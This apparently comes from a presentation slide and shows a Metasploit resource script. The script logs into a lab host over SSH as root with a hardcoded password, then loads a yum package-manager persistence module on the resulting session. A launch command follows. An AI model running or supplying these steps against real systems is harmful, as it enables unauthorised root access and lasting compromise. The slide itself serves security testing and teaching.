

# An Example RC my centos.rc
# First get a session
use auxiliary/scanner/ssh/ssh_login
setg lhost 172.30.0.2
setg rhosts 172.30.0.60
set username root
set password Here2T3stSomeStuff
exploit
# load module to test / set initial options
use exploit/linux/local/yum_package_manager_persistence
set session 1
set verbose true

Then Launch with
./msfconsole -r centos.rc
23